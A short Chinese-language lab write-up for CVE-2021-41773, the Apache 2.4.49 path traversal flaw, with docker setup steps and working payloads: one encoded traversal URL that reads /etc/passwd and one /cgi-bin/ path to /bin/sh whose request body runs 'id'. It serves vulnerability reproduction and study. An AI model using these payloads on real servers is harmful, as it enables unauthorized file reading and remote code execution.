

参考链接：  
https://github.com/blasty/CVE-2021-41773  
https://zh-cn.tenable.com/blog/cve-2021-41773-path-traversal-zero-day-in-apache-http-server-exploited?tns_redirect=true  

### 注意
仅影响版本2.4.49及“require all denied”指令未开启（默认情况下此指令不开启）  


### 环境搭建
1、下载docker环境配置文件：https://github.com/blasty/CVE-2021-41773/archive/refs/heads/master.zip  
2、解压后执行：docker-compose build && docker-compose up  
3、访问宿主机8080端口：http://127.0.0.1:8080

### 漏洞利用
1、文件读取payload  
```
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
如下图  
  
2、RCE payload  
```
/cgi-bin/.%2e/%2e%2e/%2e%2e/bin/sh
```
并添加body  
```
echo Content-Type: text/plain; echo; id
```
如下图  
  
